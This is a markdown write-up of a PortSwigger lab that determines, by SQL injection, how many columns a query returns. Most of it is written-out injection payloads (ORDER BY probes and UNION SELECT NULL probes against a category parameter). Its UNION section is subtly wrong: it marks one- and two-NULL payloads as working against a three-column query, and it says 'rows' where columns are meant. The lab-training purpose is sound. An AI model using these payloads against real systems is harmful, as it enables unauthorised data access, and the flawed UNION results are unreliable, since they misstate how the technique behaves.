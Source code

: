 ```yaml
---
title: PortSwigger - SQLi 3 - UNION attack, determining the number of columns returned by the query
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

Now we can use 2 technics to determine the number of rows returned:

### Method 1 - ORDER BY

````text
<website>/filter?category=Gifts' ORDER BY 1--    # works
<website>/filter?category=Gifts' ORDER BY 2--    # works
<website>/filter?category=Gifts' ORDER BY 3--    # works
<website>/filter?category=Gifts' ORDER BY 4--    # error!
````

So we know 3 columns are returned.

### Method 2 - UNION SELECT NULL

````text
<website>/filter?category=Gifts' UNION SELECT NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

Same result: 3 columns are returned.
